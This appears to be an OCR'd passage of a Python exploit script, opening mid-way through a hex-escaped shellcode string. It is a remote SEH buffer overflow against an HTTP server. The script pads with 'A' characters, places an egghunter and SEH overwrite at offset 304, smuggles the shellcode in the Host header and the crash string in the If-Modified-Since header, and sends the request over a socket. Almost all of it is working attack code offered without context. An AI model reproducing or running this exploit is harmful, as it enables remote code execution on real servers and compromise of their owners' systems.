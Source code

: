 ```python
"\x42\x61\x38\x44\x4f\x6c\x77\x71\x5a\x57\x56\x50\x31\x6b\x4f"
"\x4c\x6c\x55\x6c\x71\x71\x71\x6c\x65\x52\x34\x6c\x67\x50\x59"
"\x51\x48\x4f\x46\x6d\x66\x61\x6f\x37\x6a\x42\x59\x62\x53\x62"
"\x71\x47\x6c\x4b\x70\x52\x52\x30\x6e\x6b\x53\x7a\x55\x6c\x4c"
"\x4b\x42\x6c\x32\x31\x34\x38\x68\x63\x42\x68\x77\x71\x6e\x31"
"\x36\x31\x4c\x4b\x70\x59\x31\x30\x46\x61\x6e\x33\x4c\x4b\x42"
"\x69\x42\x38\x6b\x53\x64\x7a\x61\x59\x6c\x4b\x44\x74\x4c\x4b"
"\x66\x61\x6b\x66\x36\x51\x79\x6f\x4e\x4c\x49\x51\x68\x4f\x46"
"\x6d\x57\x71\x7a\x67\x45\x68\x6d\x30\x73\x45\x79\x66\x76\x63"
"\x71\x6d\x6c\x38\x65\x6b\x61\x6d\x34\x64\x43\x45\x6d\x34\x36"
"\x38\x4e\x6b\x50\x58\x56\x44\x65\x51\x38\x53\x45\x36\x6e\x6b"
"\x54\x4c\x42\x6b\x6c\x4b\x62\x78\x35\x4c\x43\x31\x38\x53\x4e"
"\x6b\x73\x34\x6e\x6b\x57\x71\x68\x50\x4c\x49\x31\x54\x67\x54"
"\x34\x64\x71\x4b\x33\x6b\x51\x71\x36\x39\x61\x4a\x53\x61\x59"
"\x6f\x4d\x30\x43\x6f\x31\x4f\x73\x6a\x4c\x4b\x77\x62\x4a\x4b"
"\x6c\x4d\x33\x6d\x31\x78\x64\x73\x50\x32\x35\x50\x73\x30\x52"
"\x48\x44\x37\x34\x33\x64\x72\x31\x4f\x46\x34\x75\x38\x72\x6c"
"\x70\x77\x35\x76\x74\x47\x4b\x4f\x4b\x65\x68\x38\x4c\x50\x35"
"\x51\x63\x30\x43\x30\x37\x59\x38\x44\x46\x34\x76\x30\x63\x58"
"\x35\x79\x4b\x30\x52\x4b\x43\x30\x6b\x4f\x6b\x65\x30\x50\x46"
"\x30\x30\x50\x66\x30\x43\x70\x52\x70\x71\x50\x50\x50\x31\x78"
"\x58\x6a\x36\x6f\x49\x4f\x79\x70\x69\x6f\x6e\x35\x6a\x37\x61"
"\x7a\x73\x35\x70\x68\x39\x50\x4d\x78\x43\x31\x4e\x31\x61\x78"
"\x56\x62\x45\x50\x35\x51\x4d\x6b\x6e\x69\x79\x76\x32\x4a\x56"
"\x70\x52\x76\x72\x77\x73\x58\x6c\x59\x6f\x55\x52\x54\x73\x51"
"\x59\x6f\x6e\x35\x4c\x45\x79\x50\x73\x44\x54\x4c\x4b\x4f\x32"
"\x6e\x65\x58\x73\x45\x48\x6c\x75\x38\x4a\x50\x6d\x65\x6e\x42"
"\x53\x66\x59\x6f\x68\x55\x42\x48\x32\x43\x30\x6d\x62\x44\x65"
"\x50\x4f\x79\x4d\x33\x32\x77\x73\x67\x52\x77\x55\x61\x39\x66"
"\x62\x4a\x77\x62\x46\x39\x30\x56\x4d\x32\x4b\x4d\x62\x46\x58"
"\x47\x71\x54\x45\x74\x35\x6c\x43\x31\x45\x51\x6c\x4d\x63\x74"
"\x75\x74\x72\x30\x6b\x76\x47\x70\x67\x34\x63\x64\x30\x50\x50"
"\x56\x53\x66\x72\x76\x31\x56\x36\x36\x70\x4e\x56\x36\x56\x36"
"\x73\x63\x63\x66\x35\x38\x44\x39\x48\x4c\x35\x6f\x4d\x56\x59"
"\x6f\x6b\x65\x4b\x39\x49\x70\x62\x6e\x56\x36\x32\x66\x59\x6f"
"\x76\x50\x45\x38\x77\x78\x6d\x57\x67\x6d\x63\x50\x59\x6f\x6b"
"\x65\x6f\x4b\x7a\x50\x4c\x75\x4e\x42\x61\x46\x35\x38\x6d\x76"
"\x6e\x75\x4f\x4d\x4f\x6d\x59\x6f\x49\x45\x77\x4c\x54\x46\x61"
"\x6c\x34\x4a\x4f\x70\x59\x6b\x79\x70\x61\x65\x56\x65\x4d\x6b"
"\x37\x37\x42\x33\x42\x52\x62\x4f\x62\x4a\x65\x50\x53\x63\x6b"
"\x4f\x7a\x75\x41\x41")

#PO @ 304
crash = "A" * 254
crash += egghunter
crash += "A" * (304 - len(crash))
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: " + shellcode + "\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
```